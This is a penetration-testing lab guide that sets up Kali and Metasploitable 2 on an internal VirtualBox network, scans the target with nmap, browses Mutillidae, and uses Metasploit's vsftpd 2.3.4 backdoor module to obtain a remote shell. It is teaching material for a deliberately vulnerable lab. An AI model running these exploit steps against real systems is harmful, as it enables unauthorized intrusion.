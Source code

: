 = Metasploitable Basic Use

Metasploitable is a Linux distrubtion that is intentionally insecure. It is an ideal platform for learning basic penetration testing skills. In this lab, you will use Kali Linux to probe Metasploitable for weaknesses.

== Prerequisites

* VirtualBox Installed
* Kali VM created
* Metasploitable 2 VM created

See previous instructions if you need to create the Kali or Metasploitable virtual machines.

== Metasploitable IP Configuration

1. Start the Metasploitable VM from VirtualBox. If you need to login, use `msfadmin` for the username and password.
2. The IP address should be 192.168.2.50.
3. Run `ifconfig` to check the IP address. If it needs to be set, run the following command.
+
```
sudo ifconfig eth0 192.168.2.50
```
+
Enter the password `msfadmin` when prompted.

== Kali IP Configuration

1. Start the Kali VM from VirtualBox.
2. The IP address should be 192.168.2.10.
3. Run `ifconfig` in a terminal to check the IP address. If it needs to be set, run the following command.
+
```
ifconfig eth0 192.168.2.10
```
+
Note that by default, Kali runs terminals as the root user, so there is no need to add `sudo` to the command.

4. Do a test ping to ensure that the Metasploitable and Kali virtual machines can connect.
+
```
ping 192.168.2.50
```

5. The pings should be successful. If the pings are not successful, check the following settings:
  * Ensure that the network adapters are set to "Internal Network" in the VirtualBox manager.
  * Ensure that the IP addresses are correct.
  * Ensure that the subnet masks are 255.255.255.0.

== Probe Metasploitable from Kali

Nmap is a port scanning tool. From the Kali, run the following command to do a scan of the Metasploitable ports.

```
nmap 192.168.2.50
```

You should see many ports are open. The following screenshot shows a partial output of the nmap output.

image::nmap-no-arguments.png[]

Many services are running that could be exploited by an attacker. It would be unusual to have an actual system running with this many open services.

== Browse Mutillidae

Mutillidae is a website built with several weaknesses.

1. In Kali, open Iceweasel.

2. Open the URL `http://192.168.2.50/mutillidae`.
+
NOTE: If you have used the Burp suite recently, you may get a message saying, "Iceweasel is configured to use a proxy server that is refusing connections. You can either star the Burp suite, or change the Iceweasel proxy settings.
+
To revert the proxy settings in Iceweasel, click Settings > Preferences > Advanced > Network> Connection Settings. Check the box for `No proxy`. Reload the page in Iceweasel and you should see the website.
+
image::mutillidae.png[]

3. There are other websites that can be exploited. You can view them in two ways. First, go to `http://192.168.2.50/` to see an index. Second, you can run the following commands in the Metasploitable terminal to see a directory listing of the files being served by the web server.
+
```
cd /var/www
ls
```

== Exploit a Backdoor

Metasploitable runs the FTP server vsftpd. The version of vsftpd contains a backdoor that somebody introduced to the code. The backdoor was fixed in the code, but anybody who deployed the vulnerable version could be open to attack as long as they had the backdoor running on their system.

1. In Kali, open a terminal. Run the following command to open the Metasploit Framework Console.
+
```
msfconsole
```

2. It will take a moment to start up. You will be presented with a prompt.
+
```
msf >
```

3. Use tab completion to type the following command.
+
```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Run `show options` to see what should be specified.
+
image::backdoor-options.png[]

5. If you have have not set the RHOST, the value will be empty. The fault for RPORT will be 21. Run the following command to set the remote host that will be exploited.
+
```
set RHOST 192.168.2.50
```

6. Run `exploit` to execute the backdoor exploit. You should see output similar to the following.
+
image::backdoor-exploited.png[]

7. Run the following command to verify that the output matches the directory structure you examined earlier.
+
```
ls /var/www
```
+
image::backdoor-ls.png[]

8. Run the following command to determine what user you are running the commands as.
+
```
whoami
```
+
What user are you running as? What could you now do on this system?

9. Run `exit` to close the connection with the remote system.
+
image::backdoor-exit.png[]
